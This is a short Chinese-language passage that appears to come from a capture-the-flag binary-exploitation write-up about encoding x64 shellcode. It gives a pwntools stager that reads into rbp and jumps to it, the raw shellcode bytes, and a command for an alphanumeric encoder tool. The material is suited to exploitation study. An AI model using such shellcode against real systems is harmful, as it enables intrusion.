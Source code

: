 上面是不可行的，因為 msf 沒有 x64/alpha_mixed 可以使用

在 github 找到相關的東西，但是該工具會讓 shellcode 變 20 倍長，或者 444 長

[https://github.com/rcx/shellcode_encoder](https://github.com/rcx/shellcode_encoder)

```
asm(shellcraft.read('rbp', 0x200) + 'jmp rbp')
echo -n $'1\xc0H\x89\xefj\x08Z\xbe\x01\x01\x01\x01\x81\xf6\x01\x03\x01\x01\x0f\x05\xff\xe5' > non-encode

./main.py non-encode rbp
```

嘗試直接利用程式本身的 read 並且觀察可以用的記憶體與暫存器

![./img/Untitled%20131.png](./img/Untitled%20131.png)
